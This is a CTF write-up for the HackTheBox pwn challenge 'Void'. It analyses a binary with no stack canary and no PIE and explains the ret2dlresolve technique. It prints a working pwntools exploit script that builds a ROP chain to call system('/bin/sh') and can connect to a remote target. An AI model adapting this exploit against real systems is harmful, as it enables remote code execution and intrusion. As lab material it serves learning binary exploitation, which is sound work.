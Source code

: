 # Void
> Write-up author: jon-brandy
## DESCRIPTION:
The room goes dark and all you can see is a damaged terminal. Hack into it to restore the power and find your way out.
## HINT:
- NONE
## STEPS:
1. In this challenge we're given a 64 bit binary - not stripped.

![image](https://github.com/Bread-Yolk/hackthebox/assets/70703371/051edd67-8036-4c74-bdbc-9f7a144140ec)

> No Canary Found, PARTIAL RELRO, NO PIE

![image](https://github.com/Bread-Yolk/hackthebox/assets/70703371/883735c5-0bb9-4f85-9485-e5de52f1ce4e)


2. Let's decompile the binary with ghidra.
3. At the main() function, there's only one function called --> vuln()

![image](https://github.com/Bread-Yolk/hackthebox/assets/70703371/c762cb32-c0fd-4976-b2af-6725b8c9965b)


4. At first, i assume that the chall must be related to `ret2libc` because there's no interesting function to return to.
5. But after checking the **Global Offset Table** turns out there are no `puts()`, `printf()`, or `write()` functions.
6. Then i realized it's a `ret2dlresolve` pwn challenge. It's a technique in pwn to manipulate the dyanmic linker's resolution process and redirect it to execute arbitrary code.
7. Actually it's `quite similiar` to overwrite GOT with format strings vuln.
8. Also we can utilize **pwntools** to automate the process to resolve the functions, because if we don't use pwntools, we need to construct 3 structures to fake.

```console
There're 3 structures we need to fake:
- STRTAB
- SYMTAB
- JMPREL
```

9. Here's the script i used to solve this:

```py
from pwn import *
import os 

os.system('clear')

def start(argv=[], *a, **kw):
    if args.REMOTE:
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    else:
        return process([exe], *a, **kw)

exe = './void'
elf = context.binary = ELF(exe, checksec=True)
context.log_level = 'DEBUG'

sh = start()

padding = 72

rop = ROP(elf)

dlresolve = Ret2dlresolvePayload(elf, symbol='system', args=['/bin/sh'])
rop.raw(asm('nop') * padding)
rop.read(0, dlresolve.data_addr)
rop.ret2dlresolve(dlresolve)

sh.sendline(rop.chain())
sh.sendline(dlresolve.payload)

sh.interactive()
```

> LOCALLY

![image](https://github.com/Bread-Yolk/hackthebox/assets/70703371/57498dbc-34a6-45b1-aa52-0c1c9568caf8)


10. Let's send it remotely.

> REMOTELY











